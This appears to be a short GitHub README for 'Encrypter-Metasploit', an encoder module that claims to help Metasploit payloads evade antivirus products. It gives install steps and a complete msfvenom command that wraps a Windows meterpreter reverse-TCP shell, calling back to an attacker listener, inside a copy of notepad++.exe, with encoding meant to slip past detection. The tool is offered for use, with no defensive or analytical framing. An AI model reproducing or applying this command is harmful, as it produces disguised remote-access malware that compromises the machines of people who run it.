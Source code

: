 # Encrypter-Metasploit

This tool permit to evade any antivirus products.
It use a brute force attack on a known plain text to bypass the sandbox.


Installation
-----------

Copy bf_xor.rb in metasploit/modules/encoders/x86/

Usage
-----------

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=7777 -f raw -x notepad++.exe -f exe-only -e x86/bf_xor -o output.exe
